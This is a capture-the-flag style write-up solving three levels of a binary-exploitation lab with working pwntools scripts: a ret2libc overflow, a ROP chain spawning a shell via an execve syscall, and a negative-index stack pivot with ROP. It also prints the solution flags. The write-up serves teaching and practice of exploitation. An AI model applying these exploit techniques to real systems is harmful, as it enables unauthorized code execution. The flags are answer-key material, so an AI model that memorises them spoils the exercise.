




## lab05

**Level C**
My first attemp is finding the length of stack frame using cyclic payload:


which reveals the return address offset is 156 bytes:

```python
p = cyclic(200)
print p # => 'aaaa...yaab'
f = cyclic_find(0x6261616f)
print f # => 156
```

Since libc is included, the addresses of `system` function and `"/bin/sh"` string can be found:


According to ret2libc technique, the following payload can be easily constructed:

```python
from pwn import *

p = process('/levels/lab05/lab5C')

ret = 0xffffffff
sysaddr = 0xb7e63190
shaddr = 0xb7f83a24

payload = 'Q' * 156 + p32(sysaddr) + p32(ret) + p32(shaddr)
# general structure is: func addr + ret addr + params addr

p.recvuntil('?\n', drop=True)
p.sendline(payload)
p.interactive()

```


The flag is `s0m3tim3s_r3t2libC_1s_3n0ugh`.

---

**Level B**
The solution is to find a rop chain that equivalent to the following shellcode:

```x86asm
31 c0                   xor    eax,eax
50                      push   eax
68 2f 2f 73 68          push   0x68732f2f
68 2f 62 69 6e          push   0x6e69622f
89 e3                   mov    ebx,esp
89 c1                   mov    ecx,eax
11: 89 c2               mov    edx,eax
13: b0 0b               mov    al,0xb
15: cd 80               int    0x80
```

Then I search a lot of gadgets and construct this payload:

```python
from pwn import *

xor = 0x0807c600        # xor eax, eax; ret
popebx = 0x080481c9     # pop ebx; ret
bufaddr = 0xbffff680    # address of buffer
popecx = 0x080e55ad     # pop ecx; ret
popedx = 0x0806ec5a     # pop edx; ret
mov10 = 0x0808fdd0      # mov eax, 7; ret
mov11 = 0x0808fd50      # add eax, 3; ret
mov12 = 0x0808fd40      # add eax, 1; ret
int80 = 0x08049401      # int 0x80

payload = '/'*130 + '/bin/dash\x00' + p32(xor) + p32(popebx) + p32(bufaddr) + p32(popecx) + p32(0) + p32(popedx) + p32(0) + p32(mov10) + p32(mov11) + p32(mov12) + p32(int80)

p = process('/levels/lab05/lab5B')
p.recvuntil(':\n', drop=True)
p.sendline(payload)
p.interactive()
```

There are some points I found in practice:
+ `pop` moves the stack top to dest. redister and move stack forword, which easily pass arguments to functions
+ simply use `sh` as the first argument may cause an "set_thread_area failed" error (reason unknown)
+ `/bin/sh` and `/bin/dash` will spawn shell of lab5A's priviledge, but `/bin/bash` remains with lab5B (why?)
+ since the stack addresses are different in gdb and in directly execution, I use an approximate address with "slash sled" (i.e., '\'*130)



The flag is `th4ts_th3_r0p_i_lik3_2_s33`.

---

**Level A**
The first challenge is to control the eip to the desirable address, in this problem, it is the address of buffer `data`. The input index is filtered so that `i` exceeds 100 is invalid, however, negative number is missed to be checked so that modifying return address of `store_number` is possible.

After several attemp, I found the offset between buffer and return address (on the stack) is 11. Then it is able to return to any address.



The assembly code I found in gadget is:
```
0x08049bb7:	add, esp, 0x2c ; ret
```
Lucky, when function `store_number` is returned with this pivot, the stack pointer will point to exactly `data[1]` (not that `data[0]` is reserved).

To bypass the reserved spaces, there are two strategies:

+ using stack pivoting to update `esp`
+ using `pop` operation to get rid of these spaces

Both strategies are applied in my solution.

The last challenge is to pass `/bin/sh` string to `ebx`. Inspired by [another solution](https://github.com/Grazfather/MBEsolutions/blob/master/lab5A.py), I pass the stack address directly to it. As illustration, see the picture below:



The absolute address of this string is `0xbffff5c8`, and I passed it in `0xbffff59c`. Try to guess the address outside GDB, and I got the anwser is `0xbffff598` (40 bytes apart).

```python
chain = [
    0,
    0x0809ffdf,     # nop ; ret
    0x0806c0a9,     # add esp, 4 ; ret
    0,
    0x08049df4,     # pop ebx ; pop esi ; ret
    0xbffff588,
    0,
    0x08098140,     # mov eax, 7 ; ret
    0x080e6255,     # pop ecx ; ret
    0,
    0x080980c0,     # add eax, 3 ; ret
    0x0806f3aa,     # pop edx ; ret
    0,
    0x0807be16,     # inc eax ; ret
    0x08048eaa,     # int 0x80
    0,
    0x6e69622f,     # '/bin'
    0x0068732f,     # '/sh\x00'
    0
]

for i in range(100):
    if i % 3 == 0:
        continue
    if i >= len(chain):
        break
    print 'store'
    print chain[i]
    print i

print 'store'
print 0x08049bb7    # add, esp, 0x2c ; ret
print -11
```



The flag is `byp4ss1ng_d3p_1s_c00l_am1rite`.

(No it's tired.)